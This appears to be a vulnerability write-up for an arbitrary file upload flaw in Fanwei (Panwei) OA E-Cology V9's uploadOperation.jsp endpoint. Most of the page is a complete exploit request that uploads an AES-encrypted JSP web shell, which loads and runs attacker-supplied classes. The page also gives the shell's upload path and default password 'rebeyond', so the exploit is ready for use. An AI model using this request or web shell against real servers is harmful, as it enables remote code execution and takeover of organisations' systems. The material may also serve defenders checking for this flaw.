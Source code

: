 # Panwei OA E-Cology uploadOperation.jsp Upload any file

## Vulnerability Description

The existence of a file upload interface in Fanwei OA V9 causes any file upload

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Panwei OA V9</span>

## Vulnerability reappears

The vulnerability is located in: /page/exportImport/uploadOperation.jsp file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-14.png)

Request Package

```bash
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: 
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close

------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Address: /page/exportImport/fileTransfer/test.jsp</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Default password rebeyond</span>
